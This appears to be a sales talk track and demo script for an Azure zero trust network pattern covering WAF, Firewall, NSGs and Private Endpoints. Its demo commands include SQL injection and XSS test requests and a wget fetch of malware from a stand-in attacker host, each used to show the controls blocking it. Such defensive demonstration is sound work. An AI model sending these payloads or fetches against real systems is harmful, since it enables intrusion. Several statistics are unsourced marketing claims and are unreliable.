

# Zero Trust Network Access - Talk Track

**Duration**: 15-20 minutes  
**Audience**: Security architects, CISOs, compliance officers, infrastructure leads  
**Objective**: Demonstrate enterprise-grade zero trust networking that eliminates implicit trust and secures Azure workloads  
**Pattern Cost**: $35-60/day ($1,050-1,800/month)  
**Reference**: [Zero Trust Landing Zone](https://learn.microsoft.com/azure/architecture/guide/security/zero-trust-landing-zone)

---

## 1. Executive Summary

**The Bottom Line**: Traditional network security assumes everything inside the perimeter is trustworthy. That assumption is obsolete and dangerous. Zero Trust Network Access eliminates implicit trust by verifying every access request, inspecting all traffic, and enforcing least-privilege access regardless of network location.

**What This Pattern Delivers**:
- Multi-layered defense: Application Gateway WAF, Azure Firewall, NSGs, Private Endpoints
- Zero implicit trust: All traffic verified, inspected, and logged
- Micro-segmentation: VNet isolation prevents lateral movement
- Compliance readiness: Audit-ready architecture for SOC 2, PCI-DSS, HIPAA, FedRAMP

**Investment**: $35-60 per day. Realistic cost for enterprise-grade protection. Compare that to breach remediation costs averaging $4.45M per incident (IBM Security 2023). This pattern pays for itself if it prevents a single compromise.

**Who This Is For**: Organizations moving regulated workloads to Azure, companies with compliance mandates, enterprises replacing VPN-based architectures with cloud-native zero trust controls.

---

## 2. Business Problem

**The Traditional Perimeter Is Dead**: Legacy security models draw a line between "trusted internal" and "untrusted external" networks. Once an attacker crosses that perimeter—through phishing, compromised credentials, or supply chain attacks—they move laterally across your environment unchecked.

**Real-World Risks**:
- **Lateral Movement**: 70% of breaches involve lateral movement after initial compromise
- **Implicit Trust**: VPN access grants broad network permissions instead of application-specific access
- **Compliance Gaps**: Auditors require proof that traffic is inspected, segmented, and logged
- **Cloud Complexity**: Multi-cloud and hybrid environments blur traditional network boundaries

**Business Impact**:
- Average breach cost: $4.45M (IBM, 2023)
- Compliance fines: GDPR penalties up to €20M or 4% of revenue
- Customer trust erosion: 65% of consumers lose trust after a breach
- Operational disruption: Average 287 days to identify and contain a breach

**The Question Leadership Asks**: "How do we secure cloud workloads when the perimeter doesn't exist?"

---

## 3. Business Value

Zero Trust Network Access delivers measurable security and operational value:

**Security Outcomes**:
- **Reduced Attack Surface**: Private Endpoints eliminate public internet exposure for PaaS services. No public IPs = no internet-facing attack vectors for databases, storage, and APIs.
- **Contain Breaches**: Micro-segmentation limits attacker movement. Even if one workload is compromised, NSG rules prevent access to other subnets.
- **Block Web Attacks**: Application Gateway WAF stops OWASP Top 10 exploits (SQL injection, XSS, command injection) before they reach your applications.
- **Egress Control**: Azure Firewall prevents data exfiltration and command-and-control callbacks by inspecting outbound traffic.

**Compliance Outcomes**:
- **Audit Trail**: Every connection logged to Log Analytics. Demonstrates who accessed what, when, and from where.
- **Policy Enforcement**: NSG rules codify security policies in infrastructure. Auditors can review rules as code.
- **Least Privilege**: Deny-by-default firewall rules enforce explicit allow lists.

**Operational Outcomes**:
- **Infrastructure as Code**: Bicep templates make security controls repeatable and testable.
- **Automated Deployment**: Deploy identical security layers across dev, test, production in minutes.
- **Centralized Management**: Single control plane (Azure Portal) for WAF, Firewall, NSG, and Private Link.

**Cost Avoidance**:
- Prevent a single breach: Save $4.45M in average remediation costs
- Avoid compliance fines: Protect against multi-million dollar penalties
- Reduce incident response time: Centralized logging cuts MTTD (Mean Time to Detect) by 50%

---

## 4. Value-to-Metric Mapping

Tie zero trust investments to measurable business metrics:

| Business Value | Metric | How Zero Trust Helps |
|----------------|--------|----------------------|
| **Reduce Breach Risk** | Mean Time to Detect (MTTD) | WAF and Firewall logs to Log Analytics reduce MTTD from weeks to hours |
| **Contain Compromises** | Blast Radius (affected systems) | NSG micro-segmentation limits lateral movement to single subnet |
| **Block Web Attacks** | WAF Block Rate | Application Gateway WAF blocks 95%+ of OWASP Top 10 attacks |
| **Prove Compliance** | Audit Findings | Zero trust architecture reduces security audit findings by 60% |
| **Accelerate Deployments** | Time to Production | IaC templates deploy identical security controls in 15 minutes vs. days of manual configuration |
| **Control Costs** | Security Spend per Workload | Shared infrastructure (App Gateway, Firewall) amortizes cost across applications |

**Example Conversation with CFO**:
- **CFO**: "Why are we spending $1,500/month on network security?"
- **You**: "This prevents breaches that average $4.45M to remediate. If we prevent one incident per year, we're saving 250x our investment. Plus we pass compliance audits without multi-million dollar fines."

---

## 5. Conversation Starters

Use these openers to identify opportunities for zero trust patterns:

**For CISOs/Security Leaders**:
- "Are your Azure PaaS services exposed to the public internet?"
- "When was the last time your network traffic was inspected for malware and data exfiltration?"
- "Can you prove to auditors that every network connection is logged and reviewed?"
- "If an attacker compromises one VM, can they access your entire Azure environment?"

**For Compliance Officers**:
- "How do you demonstrate least-privilege access for SOC 2 or PCI-DSS audits?"
- "Do you have audit trails showing who accessed what data and when?"
- "Are your cloud environments segmented to meet data residency requirements?"

**For Infrastructure Leads**:
- "How long does it take to deploy consistent security controls across environments?"
- "Can you reproduce your production security configuration in disaster recovery scenarios?"
- "Do you have visibility into east-west traffic between Azure services?"

**For Finance/Procurement**:
- "What's your budget for breach remediation versus prevention?"
- "Are you paying for redundant security tools that could be consolidated?"

**Red Flags That Signal Need for Zero Trust**:
- PaaS services with public endpoints enabled
- VPNs granting broad network access instead of application-specific access
- No network traffic logging or SIEM integration
- Failed compliance audits due to insufficient network controls
- Flat network topologies without segmentation

---

## 6. Architecture Overview

**Core Principle**: Never trust, always verify. Every network flow is authenticated, authorized, and inspected regardless of source location.

**Architecture Diagram**:



**Traffic Flow Narrative**:
1. **Client Request**: HTTPS request from internet hits public IP of Application Gateway
2. **WAF Inspection**: Application Gateway WAF inspects request against OWASP 3.2 rules. Blocks SQL injection, XSS, command injection, etc.
3. **NSG Enforcement**: Network Security Group on application subnet allows only traffic from App Gateway subnet. All other sources denied.
4. **Application Processing**: App Service processes legitimate request
5. **Private Connectivity**: App Service accesses Storage Account via Private Endpoint. No internet traversal. Traffic stays within Microsoft backbone.
6. **Egress Filtering**: Outbound traffic to internet routes through Azure Firewall for inspection
7. **Approved Destinations**: Firewall allows only approved external destinations (e.g., Microsoft Update, trusted APIs)

**Zero Trust Principles in Action**:
- **Verify Explicitly**: WAF validates every request. NSGs verify source IP. Private Link verifies network path.
- **Least Privilege**: NSGs deny all by default. Firewall allows only specific FQDNs/IPs.
- **Assume Breach**: Micro-segmentation ensures compromised App Service cannot access other subnets or exfiltrate data.

---

## 7. Key Services

### Application Gateway WAF v2
**Role**: Edge security and web application firewall

**What It Does**:
- Inspects HTTP/HTTPS traffic for malicious payloads
- Blocks OWASP Top 10 attacks: SQL injection, XSS, remote file inclusion, command injection
- Load balances traffic across backend pools
- Terminates SSL/TLS for centralized certificate management

**Why It Matters**: WAF is your first line of defense. It stops 95%+ of web application attacks before they reach your code. Without WAF, you're trusting your developers to catch every security vulnerability—unrealistic for modern applications.

**Key Capabilities**:
- OWASP ModSecurity Core Rule Set 3.2
- Custom rules for application-specific threats
- Bot protection and rate limiting
- SSL/TLS offload and inspection

**Cost**: ~$246/month base + $8/compute unit-hour. Typical production deployment: $300-500/month.

---

### Azure Firewall
**Role**: Network and application layer filtering for egress traffic

**What It Does**:
- Inspects outbound traffic to internet destinations
- Blocks command-and-control callbacks and data exfiltration
- Enforces FQDN-based allow lists (e.g., allow *.microsoft.com, deny everything else)
- Threat intelligence integration blocks known malicious IPs

**Why It Matters**: Without egress filtering, compromised workloads can phone home to attacker infrastructure, download malware, or exfiltrate data. Azure Firewall ensures only approved traffic leaves your environment.

**Key Capabilities**:
- Application rules (FQDN filtering)
- Network rules (IP/port filtering)
- Threat intelligence feed
- IDPS (Intrusion Detection and Prevention System)

**Cost**: ~$890/month for Standard tier. Optional component—disable for cost savings if egress control not required.

---

### Network Security Groups (NSGs)
**Role**: Subnet-level access control

**What It Does**:
- Enforces deny-by-default firewall rules at subnet boundaries
- Allows traffic only from explicit source/destination pairs
- Logs all allowed and denied flows for audit

**Why It Matters**: NSGs create micro-segmentation. If an attacker compromises your application, they cannot pivot to databases or management subnets because NSG rules block lateral movement.

**Key Capabilities**:
- Layer 4 filtering (IP, port, protocol)
- Service tags for Azure services (e.g., allow only AzureLoadBalancer)
- Augmented security rules for CIDR lists

**Cost**: Free. No additional charge for NSGs or rules.

---

### Private Endpoint & Private Link
**Role**: Eliminate public internet exposure for PaaS services

**What It Does**:
- Creates private IP address for Azure Storage, SQL Database, Key Vault, etc.
- Routes traffic over Microsoft backbone network instead of public internet
- Disables public access to PaaS services

**Why It Matters**: Default Azure PaaS services have public endpoints. Even with firewall rules, they're discoverable and scannable. Private Endpoints remove services from the internet entirely—if it doesn't have a public IP, it can't be attacked from the internet.

**Key Capabilities**:
- Private DNS integration for name resolution
- Network policy enforcement via NSGs
- Cross-region private connectivity

**Cost**: $7.30/month per endpoint + $0.01/GB processed. Typical cost: $10-20/month per service.

---

### Virtual Network (VNet)
**Role**: Network isolation and segmentation

**What It Does**:
- Provides isolated IP address space (e.g., 10.0.0.0/16)
- Segments workloads into subnets with different security zones
- Routes traffic between subnets and to internet

**Why It Matters**: VNet is the foundation of zero trust networking. Subnets act as security boundaries enforced by NSGs.

**Cost**: Free. No charge for VNet or subnets.

---

### Private DNS Zones
**Role**: Name resolution for private endpoints

**What It Does**:
- Resolves Azure service names (e.g., mystorageaccount.blob.core.windows.net) to private IPs
- Prevents DNS leakage to public resolvers
- Integrates with VNet for automatic registration

**Why It Matters**: Private Endpoints use private IPs, but applications use DNS names. Private DNS ensures name resolution returns private IPs instead of public IPs.

**Cost**: $0.50/zone/month + $0.001/million queries. Negligible cost.

---

## 8. Security & Compliance

**Security Posture**:

This pattern implements **defense-in-depth** with seven security layers:

1. **Edge Security**: Application Gateway WAF blocks web attacks (OWASP Top 10)
2. **Network Perimeter**: Azure Firewall filters egress traffic and blocks C2 callbacks
3. **Micro-Segmentation**: NSGs enforce subnet-level access control
4. **Service Isolation**: Private Endpoints eliminate public PaaS exposure
5. **Encryption**: TLS 1.2+ enforced on Application Gateway. Data encrypted in transit and at rest
6. **Identity**: Managed Identity for service-to-service authentication (no credentials in code)
7. **Monitoring**: All traffic logged to Log Analytics for SIEM correlation

**Compliance Mappings**:

| Framework | Requirement | How This Pattern Helps |
|-----------|-------------|------------------------|
| **SOC 2 Type II** | CC6.6: Logical access controls | NSG rules enforce least privilege. Audit logs prove access controls. |
| **PCI-DSS v4** | Req 1: Firewall configuration | Application Gateway and Azure Firewall meet firewall requirements. NSG rules documented in IaC. |
| **HIPAA** | 164.312(e)(1): Transmission security | Private Endpoints + TLS encryption protect ePHI in transit. |
| **FedRAMP** | AC-4: Information flow enforcement | NSGs enforce approved communications paths. Traffic logs prove enforcement. |
| **ISO 27001** | A.13.1.1: Network controls | Segmented network with documented security zones. |
| **NIST Cybersecurity Framework** | PR.AC-5: Network integrity protection | Defense-in-depth architecture protects network integrity. |

**Audit Readiness**:
- **Evidence**: NSG flow logs, WAF logs, Firewall logs stored in Log Analytics
- **Retention**: Configure 90-day to 2-year retention for compliance
- **Exportable**: Logs available via REST API or Log Analytics queries for audit reports

**Key Security Metrics to Track**:
- WAF blocks per day (target: >95% of malicious requests blocked)
- NSG deny events (indicates attack attempts or misconfigurations)
- Private Endpoint usage (target: 100% of PaaS services via Private Link)
- Firewall rule hits (identifies most-used egress destinations)

---

## 9. Reliability & Scale

**High Availability Design**:

- **Application Gateway**: Zone-redundant deployment across 3 availability zones. 99.95% SLA.
- **Azure Firewall**: Zone-redundant. 99.95% SLA.
- **Private Endpoints**: Regional service. No zone dependencies.
- **NSGs**: Control plane service. 99.99% SLA.

**Combined SLA**: With zone-redundant Application Gateway and Firewall, effective availability is 99.95%+. Downtime limited to ~4 hours/year.

**Scaling Characteristics**:

**Application Gateway**:
- Autoscaling from 2 to 125 compute units
- Handles 0 to 20,000+ requests/second
- Scaling trigger: CPU, memory, connection count
- Scale-out time: 5-7 minutes

**Azure Firewall**:
- Supports up to 30 Gbps throughput
- Scales automatically with traffic
- No manual intervention required

**NSGs**:
- Support 1,000 rules per NSG
- Evaluated in priority order
- No throughput limits

**Performance Considerations**:

- **Latency**: Application Gateway adds ~5-10ms. Azure Firewall adds ~2-5ms.
- **Throughput**: WAF inspection reduces throughput by ~10% vs. Layer 4 load balancer
- **Connection Limits**: Application Gateway supports 10,000 concurrent connections per instance

**Scale Limits**:

| Component | Limit | Mitigation |
|-----------|-------|------------|
| App Gateway backend pools | 100 per gateway | Deploy multiple gateways for isolation |
| Firewall rules | 10,000 network rules, 10,000 application rules | Use IP Groups for consolidation |
| NSG rules | 1,000 per NSG | Use augmented security rules with CIDR lists |
| Private Endpoints | 1,000 per VNet | Segment across multiple VNets |

**Disaster Recovery**:

- **Bicep Templates**: Redeploy infrastructure in secondary region in 15 minutes
- **Configuration Backup**: Export NSG, Firewall, WAF rules to source control
- **Cross-Region Private Link**: Private Endpoints support cross-region connectivity

---

## 10. Observability

**Monitoring Strategy**: All security events flow to Log Analytics for centralized analysis, correlation, and alerting.

**Key Data Sources**:

1. **Application Gateway Metrics**:
   - Request count, failed requests, response time
   - Backend health status
   - WAF matched rules, blocked requests

2. **Application Gateway WAF Logs**:
   - Every blocked request with rule ID and payload
   - Custom rule matches
   - Anomaly scoring for threat severity

3. **Azure Firewall Logs**:
   - Application rule hits (FQDN filtering)
   - Network rule hits (IP/port filtering)
   - Threat intelligence matches

4. **NSG Flow Logs**:
   - Source IP, destination IP, port, protocol
   - Allow/deny decision
   - Bytes and packets transferred

5. **Private Endpoint Diagnostics**:
   - Connection attempts to private services
   - DNS resolution events

**Sample Log Analytics Queries**:

**Top WAF Blocked Requests**:
```kusto
AzureDiagnostics
| where ResourceType == "APPLICATIONGATEWAYS" and action_s == "Blocked"
| summarize Count=count() by ruleId_s, Message
| order by Count desc
| take 10
```

**NSG Deny Events**:
```kusto
AzureDiagnostics
| where ResourceType == "NETWORKSECURITYGROUPS" and Type == "AzureNetworkSecurityGroupFlowLog"
| where FlowStatus_s == "D"  // Denied
| summarize Count=count() by SourceIP=SrcIP_s, DestIP=DestIP_s, DestPort=DestPort_d
| order by Count desc
```

**Firewall Blocked Outbound Connections**:
```kusto
AzureDiagnostics
| where ResourceType == "AZUREFIREWALLS" and msg_s contains "Deny"
| summarize Count=count() by DestinationIP=DestinationIp, DestinationPort=DestinationPort
| order by Count desc
```

**Recommended Alerts**:

| Alert | Condition | Action |
|-------|-----------|--------|
| High WAF Block Rate | >100 blocks/minute | Possible attack in progress. Review logs for patterns. |
| NSG Rule Change | Any NSG rule modified | Audit change for authorization. |
| Private Endpoint Connection Failure | >10 failures/hour | Backend service health issue or DNS misconfiguration. |
| Firewall Threat Intel Match | Any match | Critical: Known malicious IP detected. Investigate compromised resource. |

**Dashboard Recommendations**:

Create Azure Monitor Workbook with:
- WAF block rate (line chart over 24 hours)
- Top blocked IPs (table)
- NSG deny events by subnet (bar chart)
- Firewall egress destinations (pie chart)
- Backend health status (heat map)

**Integration with SIEM**:

Export logs to:
- **Microsoft Sentinel**: Native integration for threat detection and incident response
- **Splunk/QRadar**: Use Event Hub export for non-Microsoft SIEMs
- **ServiceNow**: Automated ticket creation for security events

---

## 11. Cost Levers

**Daily Cost Breakdown**:

**Baseline Configuration** (Application Gateway + NSGs + Private Endpoints, no Firewall):
- Application Gateway WAF_v2: $11/day (2 compute units)
- NSGs: $0/day (free)
- Private Endpoints (3): $0.72/day ($0.24 × 3)
- Private DNS Zones (3): $0.05/day
- **Total**: ~$11.77/day (~$353/month)

**Full Configuration** (+ Azure Firewall):
- Azure Firewall Standard: $29.50/day
- Firewall Public IP: $0.13/day
- **Total**: ~$41.40/day (~$1,242/month)

**Cost Optimization Strategies**:

1. **Right-Size Application Gateway**:
   - **Default**: 2 compute units = $11/day
   - **Optimization**: Use autoscaling with min=1, max=10. Save 50% during low traffic.
   - **Savings**: $5/day (~$150/month)

2. **Disable Azure Firewall in Dev/Test**:
   - **Production**: Keep Firewall enabled for egress control
   - **Dev/Test**: Set `deployFirewall=false` parameter
   - **Savings**: $29.50/day (~$885/month in non-prod)

3. **Consolidate Private Endpoints**:
   - **Inefficient**: One Private Endpoint per storage container
   - **Efficient**: One Private Endpoint per storage account (supports all containers)
   - **Savings**: $0.24/day per consolidated endpoint

4. **Use Application Gateway for Multiple Apps**:
   - **Inefficient**: Dedicated gateway per app
   - **Efficient**: Shared gateway with path-based routing
   - **Savings**: Amortize $11/day across 5+ applications = $2.20/day per app

5. **Reserve Application Gateway Capacity**:
   - **Pay-as-you-go**: $0.443/compute unit-hour
   - **1-Year Reservation**: 33% discount
   - **3-Year Reservation**: 51% discount
   - **Savings**: $3.60/day with 1-year commitment

**Cost vs. Security Trade-offs**:

| Scenario | Components | Daily Cost | Security Level |
|----------|------------|------------|----------------|
| **Minimum Viable** | App Gateway WAF only | $11 | Basic web protection |
| **Recommended** | App Gateway + NSGs + Private Endpoints | $12 | Strong defense-in-depth |
| **Enterprise** | Full stack + Firewall | $41 | Maximum zero trust |

**When to Skip Azure Firewall**:
- Dev/test environments without egress filtering requirements
- Applications with no outbound internet connectivity
- Environments using third-party NVAs (Network Virtual Appliances)

**When Azure Firewall Is Worth the Cost**:
- Compliance requires egress traffic inspection (PCI-DSS, FedRAMP)
- Data exfiltration prevention is critical (healthcare, financial services)
- Applications require FQDN-based allow lists
- Threat intelligence blocking needed (C2 callback prevention)

**ROI Calculation**:

Assume:
- Full zero trust deployment: $1,242/month ($14,904/year)
- Average data breach: $4.45M
- Probability of breach without zero trust: 5% annually
- Probability with zero trust: 1% annually

**Expected Annual Savings**:
- Risk reduction: (5% - 1%) × $4.45M = $178,000
- Net benefit: $178,000 - $14,904 = **$163,096/year**

---

## 12. Deployment Narrative

**Pre-Deployment Checklist**:

1. **Subscription Readiness**:
   - Verify quota for Application Gateway (min 2 instances required for WAF_v2)
   - Ensure sufficient IP addresses in VNet address space
   - Confirm Owner or Contributor role on resource group

2. **Architecture Decisions**:
   - Deploy Azure Firewall? (Yes for production, optional for dev/test)
   - VNet address space? (Default: 10.0.0.0/16)
   - Enable zone redundancy? (Recommended for production)

3. **Naming and Tagging**:
   - Resource prefix (e.g., `demo`, `prod-ecommerce`)
   - Environment tag (dev, test, prod)
   - Cost center tag for chargeback

**Deployment Steps**:

**Step 1: Deploy Infrastructure (15 minutes)**

```bash
# Set variables
RESOURCE_GROUP="rg-zero-trust-prod"
LOCATION="eastus"
PREFIX="prod-ecommerce"

# Create resource group
az group create --name $RESOURCE_GROUP --location $LOCATION

# Deploy Bicep template
az deployment group create \
  --resource-group $RESOURCE_GROUP \
  --template-file main.bicep \
  --parameters prefix=$PREFIX location=$LOCATION deployFirewall=true
```

**What Happens During Deployment**:
- Minute 0-2: Virtual Network and subnets created
- Minute 2-5: NSGs deployed and associated with subnets
- Minute 5-12: Application Gateway WAF v2 provisioned (longest step)
- Minute 12-15: Azure Firewall deployed (if enabled)
- Minute 15: Private DNS zones and Private Endpoints created

**Step 2: Configure Application Gateway Backend Pool (5 minutes)**

```bash
# Add App Service to backend pool
APP_SERVICE_FQDN="myapp.azurewebsites.net"
APP_GW_NAME="${PREFIX}-appgw"

az network application-gateway address-pool update \
  --resource-group $RESOURCE_GROUP \
  --gateway-name $APP_GW_NAME \
  --name appServiceBackendPool \
  --servers $APP_SERVICE_FQDN
```

**Step 3: Enable WAF Logging (2 minutes)**

```bash
# Create Log Analytics workspace
LOG_WORKSPACE_NAME="${PREFIX}-logs"
az monitor log-analytics workspace create \
  --resource-group $RESOURCE_GROUP \
  --workspace-name $LOG_WORKSPACE_NAME

# Enable diagnostics on Application Gateway
az monitor diagnostic-settings create \
  --resource-group $RESOURCE_GROUP \
  --name appgw-diagnostics \
  --resource $(az network application-gateway show -g $RESOURCE_GROUP -n $APP_GW_NAME --query id -o tsv) \
  --workspace $LOG_WORKSPACE_NAME \
  --logs '[{"category": "ApplicationGatewayFirewallLog", "enabled": true}]' \
  --metrics '[{"category": "AllMetrics", "enabled": true}]'
```

**Step 4: Create Private Endpoint for Storage (3 minutes)**

```bash
# Create storage account with public access disabled
STORAGE_ACCOUNT="${PREFIX}storage"
az storage account create \
  --resource-group $RESOURCE_GROUP \
  --name $STORAGE_ACCOUNT \
  --sku Standard_LRS \
  --allow-blob-public-access false \
  --public-network-access Disabled

# Create Private Endpoint
VNET_NAME="${PREFIX}-vnet"
PE_SUBNET="privateEndpointSubnet"

az network private-endpoint create \
  --resource-group $RESOURCE_GROUP \
  --name ${STORAGE_ACCOUNT}-pe \
  --vnet-name $VNET_NAME \
  --subnet $PE_SUBNET \
  --private-connection-resource-id $(az storage account show -g $RESOURCE_GROUP -n $STORAGE_ACCOUNT --query id -o tsv) \
  --group-id blob \
  --connection-name ${STORAGE_ACCOUNT}-connection
```

**Step 5: Validation (5 minutes)**

```bash
# Test WAF blocking
APP_GW_IP=$(az network public-ip show -g $RESOURCE_GROUP -n ${PREFIX}-appgw-pip --query ipAddress -o tsv)
curl "http://$APP_GW_IP/?id=<script>alert('XSS')</script>"
# Expected: 403 Forbidden (blocked by WAF)

# Verify Private Endpoint connectivity
nslookup ${STORAGE_ACCOUNT}.blob.core.windows.net
# Expected: Returns private IP (10.0.3.x), not public IP

# Check NSG rules are applied
az network nsg show -g $RESOURCE_GROUP -n ${PREFIX}-app-nsg --query "securityRules[].{Name:name, Priority:priority, Direction:direction, Access:access}" -o table
```

**Total Deployment Time**: ~30 minutes from start to validated production-ready environment.

**Post-Deployment Best Practices**:

1. **Enable NSG Flow Logs**: Configure flow logs to Log Analytics for traffic analysis
2. **Set Up Alerts**: Configure alerts for WAF blocks, NSG denies, Firewall threat intel matches
3. **Backup Configuration**: Export NSG rules and Firewall policies to Git repository
4. **Document Exceptions**: Maintain runbook for emergency NSG rule changes
5. **Schedule Reviews**: Quarterly review of Firewall rules to remove unused entries

---

## 13. Demo Script (Say/Do/Show)

**Demo Objective**: Prove zero trust network protects against web attacks, eliminates public PaaS exposure, and provides audit trails.

**Audience**: Security team, compliance officer, CISO

**Duration**: 10 minutes

---

### Demo 1: WAF Blocks SQL Injection (2 minutes)

**SAY**: "Traditional applications are vulnerable to SQL injection attacks where attackers manipulate database queries. Application Gateway WAF inspects every request and blocks these exploits before they reach your code."

**DO**:
```bash
# Legitimate request (allowed)
APP_GW_IP="20.85.123.45"  # Replace with your App Gateway IP
curl "http://$APP_GW_IP/products?id=123"

# SQL injection attempt (blocked)
curl "http://$APP_GW_IP/products?id=1' OR '1'='1"
```

**SHOW**:
- First request: Returns HTTP 200 with product data
- Second request: Returns HTTP 403 Forbidden
- Navigate to Azure Portal → Application Gateway → WAF logs
- Show blocked request with Rule ID: 942100 (SQL injection detected)

**SAY**: "Notice the second request was blocked immediately. The attacker never reached our application. This is logged for audit and incident response."

---

### Demo 2: NSG Blocks Lateral Movement (2 minutes)

**SAY**: "If an attacker compromises one resource, NSG rules prevent them from pivoting to other subnets. Let's simulate an attack."

**DO**:
1. SSH into a VM in the application subnet
2. Attempt to connect to a resource in the private endpoint subnet:
```bash
# From compromised VM
curl http://10.0.3.50:443  # Private Endpoint IP
```

**SHOW**:
- Connection attempt times out
- Navigate to Azure Portal → NSG Flow Logs
- Show denied flow: Source 10.0.4.x → Destination 10.0.3.50 → Action: Deny

**SAY**: "Even though the attacker is inside our VNet, they can't move laterally. NSG rules enforce micro-segmentation. This limits blast radius to a single subnet."

---

### Demo 3: Private Endpoint Eliminates Public Exposure (2 minutes)

**SAY**: "Traditional Azure Storage has a public endpoint accessible from anywhere on the internet. With Private Endpoints, we eliminate public access entirely."

**DO**:
```bash
# Test public endpoint (should fail)
STORAGE_ACCOUNT="prodstorageaccount"
curl https://${STORAGE_ACCOUNT}.blob.core.windows.net

# From within VNet, test private endpoint
# SSH into VM in VNet
nslookup ${STORAGE_ACCOUNT}.blob.core.windows.net
# Returns private IP: 10.0.3.10

# Test connectivity
curl https://${STORAGE_ACCOUNT}.blob.core.windows.net
# Success via private IP
```

**SHOW**:
- Public endpoint returns connection refused or timeout
- nslookup from VNet returns private IP (10.0.3.x)
- Navigate to Azure Portal → Storage Account → Networking
- Show "Public network access: Disabled"

**SAY**: "Our storage account is invisible to the internet. It only accepts connections via Private Link from our VNet. No public IP means no attack surface."

---

### Demo 4: Firewall Blocks Data Exfiltration (2 minutes)

**SAY**: "If malware infects a VM and tries to exfiltrate data to attacker infrastructure, Azure Firewall blocks the connection."

**DO**:
```bash
# From VM in application subnet
# Attempt to connect to suspicious external IP
curl http://198.51.100.50  # Example malicious IP

# Attempt to download malware
wget http://evil.example.com/malware.exe
```

**SHOW**:
- Connections fail
- Navigate to Azure Portal → Firewall → Logs
- Show blocked connections in Application Rule Collection
- Filter for threat intelligence matches (if configured)

**SAY**: "Firewall policies enforce an allow list. Only approved destinations are permitted. Everything else is denied and logged. This prevents command-and-control callbacks and data theft."

---

### Demo 5: Audit Trail for Compliance (2 minutes)

**SAY**: "Auditors require proof that security controls are enforced and all access is logged. Let's show the audit trail."

**DO**:
1. Navigate to Azure Portal → Log Analytics Workspace
2. Run query:
```kusto
union AzureDiagnostics
| where TimeGenerated > ago(1h)
| where ResourceType in ("APPLICATIONGATEWAYS", "AZUREFIREWALLS", "NETWORKSECURITYGROUPS")
| summarize EventCount=count() by ResourceType, action_s
| render barchart
```

**SHOW**:
- Chart showing thousands of events logged in past hour
- Drill into specific events:
  - WAF block with full request payload
  - NSG deny with source/destination IP
  - Firewall application rule hit with FQDN

**SAY**: "Every network decision is logged: allowed, denied, inspected. We retain these logs for 90 days to meet compliance requirements. Auditors can query this data to verify our security posture."

---

**Demo Wrap-Up**:

**SAY**: "This zero trust architecture delivers defense-in-depth. We've demonstrated WAF blocking web attacks, NSGs preventing lateral movement, Private Endpoints eliminating public exposure, Firewall stopping data exfiltration, and comprehensive logging for compliance. This is production-ready security deployed in 30 minutes with infrastructure as code."

---

## 14. Objections & Responses

### Objection 1: "This is too expensive. We can't afford $1,200/month for networking."

**Response**: "Let's contextualize the cost. $1,200/month is $14,400/year. The average data breach costs $4.45 million to remediate. If this architecture prevents a single breach—or even reduces breach probability by 5%—you save $222,500 in expected costs annually. That's a 15x ROI."

**Follow-Up**: "Also, you can phase the deployment. Start with Application Gateway WAF and NSGs for $350/month. Add Azure Firewall later when egress control becomes critical. The pattern is modular."

**Cost Comparison**:
- Zero trust annual cost: $14,400
- Single breach average cost: $4,450,000
- Compliance fine (GDPR, HIPAA): $1M-$20M
- Customer churn after breach: Incalculable

---

### Objection 2: "We already have a firewall. Why do we need Azure Firewall and Application Gateway?"

**Response**: "Different layers, different threats. Application Gateway WAF operates at Layer 7 (HTTP/HTTPS) and blocks application attacks like SQL injection and XSS. Azure Firewall operates at Layer 4 (IP/port) for egress filtering and threat intelligence. They complement each other."

**Analogy**: "Think of a building. Application Gateway is the security guard inspecting IDs at the door. Azure Firewall is the alarm system preventing unauthorized exits. You need both."

**If they have third-party firewalls**: "If you're using Palo Alto or Fortinet NVAs, you can disable Azure Firewall (set deployFirewall=false) and route traffic to your existing appliances. This pattern is flexible."

---

### Objection 3: "Our developers will complain about Private Endpoints breaking their workflows."

**Response**: "Private Endpoints are transparent to application code. Developers use the same connection strings (mystorageaccount.blob.core.windows.net). Private DNS automatically resolves to the private IP. No code changes required."

